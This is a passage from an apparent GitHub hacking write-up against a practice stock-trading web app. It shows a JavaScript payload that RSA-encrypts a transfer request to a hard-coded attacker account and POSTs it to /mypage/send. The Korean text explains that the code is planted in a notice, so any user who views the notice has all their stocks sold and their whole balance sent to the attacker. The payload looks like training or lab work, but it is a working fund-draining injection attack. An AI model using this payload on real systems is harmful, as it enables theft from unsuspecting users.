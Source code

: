 ```
}
 
async function ajaxSend(RSAModulus, RSAExponent, user_nm, PRICE) {
    const rsa = new RSAKey();
    rsa.setPublic(RSAModulus, RSAExponent);
    let data = {
        name: user_nm,
        account_number: '909089-4923112',
        price: PRICE,
        transfer_bankagency: 'RK루키은행'
    };
    let e2eData = rsa.encrypt(JSON.stringify(data));
    // Promise를 반환하는 jQuery Ajax 사용
    try {
        const response = await $.ajax({
            url: '/mypage/send',
            type: 'POST',
            contentType: 'application/json',
            data: e2eData
        });
        alert(response.body);
    } catch (error) {
        alert('오류 발생: ' + error.statusText);
    }
}
 
</script>

```

> <img width="257" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/bf0bd24c-0352-4450-83c4-5080989eb7bf">

- 코드를 포함한 공지사항을 작성한 뒤 업로드하고 일반 사용자가 공지사항을 확인한다. 그러면 사용자의 보유 주식이 전부 판매되고 계좌 잔액이 모두 공격자에게 송금된다.

> <img width="257" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/e60c99ea-f416-4705-967b-0dd3b07e51a7">

> <img width="257" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/787a0cba-8862-4998-8a93-c4c9212db8f2">

> <img width="257" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/200b5e42-fcb3-4fe9-b9c2-17e1e6fbef8f">

> <img width="257" alt="image" src="https://github.com/hanmin0512/rookiestock_hacking/assets/37041208/c767f00b-e5de-4eb3-9697-bc19d816c01a">